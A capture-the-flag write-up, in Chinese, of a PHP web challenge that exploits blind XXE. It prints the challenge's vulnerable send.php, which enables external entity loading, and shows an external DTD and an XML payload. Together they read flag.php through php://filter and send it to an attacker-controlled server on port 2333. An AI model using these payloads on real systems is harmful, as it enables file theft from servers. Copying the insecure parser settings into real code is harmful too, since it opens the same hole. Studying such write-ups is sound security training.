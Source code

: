 ![](<./img/Pasted image 20230205110445.png>)

![](<./img/Pasted image 20230205110501.png>)

![](<./img/Pasted image 20230205110522.png>)

提示可以下载源码

![](<./img/Pasted image 20230205110551.png>)

`send.php`

```php
<?php 
    
libxml_disable_entity_loader(false);

if ($_SERVER["REQUEST_METHOD"] == "POST"){
    $xmldata = file_get_contents("php://input");
    if (isset($xmldata)){
        $dom = new DOMDocument();
        try {
            $dom->loadXML($xmldata, LIBXML_NOENT | LIBXML_DTDLOAD);
        }catch(Exception $e){
            $result = "loading xml data error";
            echo $result;
            return;
        }
        $data = simplexml_import_dom($dom);

        if (!isset($data->name) || !isset($data->email) || !isset($data->content)){
            $result = "name,email,content cannot be empty";
            echo $result;
            return;
        }

        if ($data->name && $data->email && $data->content){
            $result = "Success! I will see it later";
            echo $result;
            return;
        }else {
            $result = "Parse xml data error";
            echo $result;
            return;
        }
    }
}else {
    die("Request Method Not Allowed");
}

?>
```

`flag.php`

```php
<?php 
    $flag1 = "hgame{xxxx}";
?>
```

明示`XXE`盲注

在vps上部署`DTD`文件

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://xxx.xxx.xxx.xxx:2333?p=%file;'>">
```

![](<./img/Pasted image 20230205111620.png>)

payload如下

```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "https://cloud.cracktc.top/d/local/test.dtd?sign=xxx">
%remote;%int;%send;
]>
```

![](<./img/Pasted image 20230205112753.png>)

![](<./img/Pasted image 20230205112853.png>)

#Web #PHP #源码泄漏 #XXE #盲注 #DTD #伪协议 